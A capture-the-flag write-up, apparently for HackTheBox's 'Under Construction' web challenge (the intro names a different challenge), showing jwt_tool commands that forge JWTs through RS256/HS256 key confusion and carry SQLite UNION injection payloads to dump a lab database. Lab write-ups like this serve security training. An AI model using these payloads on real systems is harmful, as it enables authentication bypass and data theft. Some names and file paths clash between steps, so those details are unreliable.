

# Under Construction

## Overview

Hello everyone, In this writeup we are going to solve You Know 0xDiablos from HackTheBox.

**Link to the Challenge:** [https://app.hackthebox.com/challenges/111](https://app.hackthebox.com/challenges/111)

Lets Start 🙌

***

## Initial Setup

First download the given file.

The give file is a zip file. Extract the zip file using the following command and the given password:

Command: `unzip <zip_file>`

password: `hackthebox`

The zip file contains the source code of a web application based on NodeJS and ExpressJS.

***

## Code Analysis

I started investigating from the `index.js` file from the root directory.

<figure><figcaption></figcaption></figure>

From this, we can infer that `./routes` folder for handling the requests. Next I checked the routes folder and found another `index.js` file in the routes folder.

<figure><figcaption></figcaption></figure>

From the `index.js` file from the routes folder, we can see that it uses the `AuthMiddleware`, `JWTHelper` and `DBHelper` files to perform all the actions.

So, next I checked the `AuthMiddleware` file.

<figure><figcaption></figcaption></figure>

This file also used the `JWTHelper` to check whether the tokens are valid.

### Algorithm Confusion Attack

On taking a look at the `JWTHelper` file,

<figure><figcaption></figcaption></figure>

we can see that it uses the `jsonwebtoken` library to generate token and sign tokens. As we can see two files, `privatekey` and `publickey` are read from the file system and it uses the `privatekey` to sign the data in the `sign()` function and it uses the public key to decode in the `decode()` function, we can devise that it uses asymmetric encryption to encrypt the tokens.

And also you can see that the sign function uses `RS256` algorithm to sign whereas the decode method allows both `RS256` and `HS256` algorithms to verify the token.

This leads to the **Algorithm Confusion Attack**:



### SQL Injection

Let’s take a look at the `DBHelper.js` file.

<figure><figcaption></figcaption></figure>

The server uses the `sqlite` database of version `sqlite3`. You can also see that the username variable in the `getUser` method is declared explicitly in the SQL request without proper code sanitation, which leads to SQL Injection.

### Results

From the given source code, we have inferred the following:

* The application is vulnerable to `Algorithm Confusion Attack`
* The application is also vulnerable to `SQL Injection Attack`

***

## Exploiting the Vulnerabilities

### Getting a Valid JWT Token

First we need a valid token to perform SQL Injection Attack on the username field. To create a valid token we can use `JWT_TOOL` to create a valid token. For that first we need a valid token from the website.



Now start the instance in hackthebox and visit the website.

<figure><figcaption></figcaption></figure>

You can see that the website has a simple login page. Register a new user and login to get a valid session token.

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

<figure><figcaption></figcaption></figure>

After logging in, check the `Application` tab in the dev tools of your browser.

<figure><figcaption></figcaption></figure>

You can see a session token is generated for the current logged in user.&#x20;

### Analysing the Token

Now copy this token and go to [https://jwt.io/](https://jwt.io/) website to decode this token. Paste the token in the Encoded tab and check the Decoded tab. Also store this token in a file in your local machine, I have save it in a file named `sessionToken`.

<figure><figcaption></figcaption></figure>

You can see that the `Header` section has the algorithm that is being used and the `Payload` section has the `username` field and the Public Key which is used to verify the token according to the decode function in the `JWTHelper.js` which we saw in the source code.

### Extracting the Public Key

Now copy the value of `pk` and paste it in a file in your local machine and replace all the  characters in the Public Key with a new line, since a general Public key will be stored in such format. The server uses the public key which is stored in the server to verify the token, not the public key from this token.

So the Public key that we are going to use should exactly match the public key that is stored in the server for the attack to work.

After replacing the  characters in the public key, your key should look like this:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
```

### Verifying the Public Key

Now to verify whether this key is working, copy this key and go to the `[jwt.io](http://jwt.io)` website and paste the public key in the verify signature tab and check whether the Signature is Verified.

<figure><figcaption></figcaption></figure>

Now we got the Public Key. Next we have to create valid `JWT` tokens, using `JWT_tool`, so that we can bypass authentication.

## Creating Valid JWT Tokens

### Capturing the Login Request

Now open `burpsuite` and capture the login request and send it to the repeater tab.

First do the `login`, intercept the request with burpsuite and forward the `POST` request, then capture the next immediate `GET` request to `/`.

<figure><figcaption></figcaption></figure>

### Generating Token using jwt\_tool

Now, its time to generate a token using `jwt_tool`. Use the following command to generate a token:

```bash
jwt_tool $(cat sessionToken) -I -pc username -pv someone -X k -pk ./publickey

// Here 
// $(cat sessionToken) : The session token that you got from a valid login
// -I : Inject
// -pc : variable to inject
// -pv : value of the variable to be injected
// -X : Exploit type
// k : Key-Confusion attack
// -pk : public key that we have extracted from the token
```

<figure><figcaption></figcaption></figure>

Now copy this token and replace with the session token in the burpsuite repeater tab and send the request:

<figure><figcaption></figcaption></figure>

We got the response back and the attack was successful.

### Performing SQL Injection

Now we have to perform the SQL Injection attack on the username field. You can find some useful payloads for SQLite 3 injection&#x20;

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}

First we have to find the number of columns. You can do this by using the following command:


```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,1,1--" -X k -pk ./public.key
```


<figure><figcaption></figcaption></figure>

Now send a request using this token.

<figure><figcaption></figcaption></figure>

The request is valid and we got a response back. From this we can devise that the database is containing three columns.

Now we can get the table using the following command:


```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(tbl_name),1 from sqlite_master--" -X k -pk ./public.key
```


<figure><figcaption></figcaption></figure>

Now send the request.

<figure><figcaption></figcaption></figure>

Next we have to find the columns for the above found tables. You can do this by executing sql command:


```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(sql),1 from sqlite_master--" -X k -pk ./public.key
```


<figure><figcaption></figcaption></figure>

Now send the request.

<figure><figcaption></figcaption></figure>

From the response we can see that the `flag_storage` table has the flag `top_secret_flag`.

## Getting the Flag

Now to get the flag, use the following command:


```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(top_secret_flaag),1 from flag_storage--" -X k -pk ./public.key
```


<figure><figcaption></figcaption></figure>

Now send the request.

<figure><figcaption></figcaption></figure>

We successfully got the flag…..

Thank You !!!!!!
